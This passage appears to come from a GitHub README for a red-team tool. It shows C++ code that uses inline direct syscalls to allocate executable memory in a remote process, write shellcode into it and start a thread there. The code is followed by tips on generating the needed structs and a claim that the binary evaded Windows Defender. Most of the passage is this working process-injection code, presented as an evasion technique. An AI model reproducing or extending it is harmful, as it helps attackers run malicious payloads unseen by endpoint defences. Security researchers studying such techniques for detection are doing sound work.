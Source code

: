 ```cpp
	INLINE_SYSCALL(NtAllocateVirtualMemory)(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	INLINE_SYSCALL(NtWriteVirtualMemory)(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);

	HANDLE hThread;
	INLINE_SYSCALL(NtCreateThreadEx)(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);

	INLINE_SYSCALL(NtClose)(hProcess);
	INLINE_SYSCALL(NtClose)(hThread);

	return 0;
}
```

> _**NOTE:** Make sure to create the necessary structs and typedefs as this tool won't do it for you, unlike [jthuraisamy/SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)._
 
> _**TIP:** Use [jthuraisamy/SysWhispers2](https://github.com/jthuraisamy/SysWhispers2) to generate the required structs and typedefs, then utilize [JustasMasiulis/inline_syscall](https://github.com/JustasMasiulis/inline_syscall) when using syscalls._

If we run the compiled binary against Windows Defender, it was not detected (at the time of writing) compared to the binary generated with [jthuraisamy/SysWhispers2](https://github.com/jthuraisamy/SysWhispers2).
